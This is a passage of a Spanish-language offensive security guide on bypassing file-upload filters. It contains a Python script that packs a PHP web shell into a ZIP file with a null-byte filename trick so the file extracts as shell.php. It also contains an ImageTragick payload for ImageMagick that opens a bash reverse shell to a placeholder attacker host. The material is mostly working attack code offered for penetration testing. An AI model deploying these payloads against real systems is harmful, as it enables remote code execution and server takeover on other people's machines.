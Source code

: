 Podemos reutilizar el script anterior para crear un archivo ZIP.
```python
#!/usr/bin/python

import zipfile
from cStringIO import StringIO

def create_zip():
f = StringIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('shell.php .pdf', '<?php echo system($_REQUEST["cmd"]); ?>')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
Ten en cuenta que el nombre tiene un espacio en su interior. Ahora puedes editar el archivo zip generado con un editor hexadecimal y cambiar este carácter en el campo del nombre ubicado dentro del Encabezado del Directorio Central por un byte nulo `00`:
```bash
# before changing the name of the file inside the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 202e 7064  ...shell.php .pd
# after changing the name of the file inside the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 002e 7064  ...shell.php..pd
```
Cuando la aplicación verifique el nombre del archivo dentro del zip, el nombre utilizado para esta verificación será el nombre del encabezado de archivo local, **pero no si el zip está encriptado** (ver la especificación pkzip). El nombre utilizado para almacenar el archivo será el nombre del encabezado del directorio central cuando 7z o unzip vean una diferencia entre los dos nombres. Gracias al byte nulo, el nombre será `shell.php`.

Cuando se descomprime:
```bash
7z e poc.zip
ls
shell.php
```
**Referencias**:

[https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html)

[https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT)

# ImageTragic

Carga este contenido con una extensión de imagen para explotar la vulnerabilidad **\(ImageMagick, 7.0.1-1\)**.
```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
# Incrustando una Shell de PHP en PGN
